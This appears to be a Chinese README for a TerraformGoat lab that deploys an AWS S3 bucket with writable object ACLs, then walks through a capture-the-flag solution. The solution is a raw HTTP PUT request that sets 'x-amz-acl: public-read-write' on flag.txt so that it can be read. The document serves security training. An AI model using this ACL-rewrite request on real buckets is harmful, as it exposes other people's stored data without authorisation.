



# 描述

[English](./README.md) | 中文

这是一个可以帮你快速构建存储桶对象ACL可读写场景的脚本

## 部署环境

```bash
cd /TerraformGoat/aws/s3/object_acl_writable/
```

配置 AWS 访问凭证

```shell
aws configure
```

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

```bash
terraform init
terraform apply
```

输入yes之后，会自动的快速构建场景

## Get Flag

尝试访问 flag.txt

```shell
hxseclabnt4n4.s3.us-east-1.amazonaws.com/flag.txt
```



禁止访问，但是我们可以通过PUT方法，在请求头中添加`x-amz-acl`中添加`public-read`来修改这个对象的 acl



```http
PUT /flag.txt?acl HTTP/1.1
Host: hxsecxxxxx.s3.eu-west-1.amazonaws.com
x-amz-acl: public-read-write
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

随后再访问这个 flag.txt，成功获取flag



## 销毁挑战

```bash
terraform destroy
```

输入yes即可
